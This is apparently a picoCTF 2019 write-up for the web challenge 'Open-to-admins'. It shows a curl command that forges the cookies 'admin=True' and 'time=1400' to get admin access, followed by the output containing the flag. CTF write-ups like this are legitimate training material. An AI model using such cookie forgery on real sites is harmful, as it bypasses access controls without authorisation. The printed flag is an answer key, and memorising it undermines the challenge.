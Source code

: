 # Open-to-admins
Web Exploitation, 200 points

## Description:
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. 


## Solution: 

We can provide the requested values using cURL:
```console
root@kali:/media/sf_CTFs/pico/Open-to-admins# curl "https://2019shell1.picoctf.com/problem/12276/flag" -H "Cookie: time=1400; admin=True;" -s | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{0p3n_t0_adm1n5_bb42f2e0}</code></p>
```
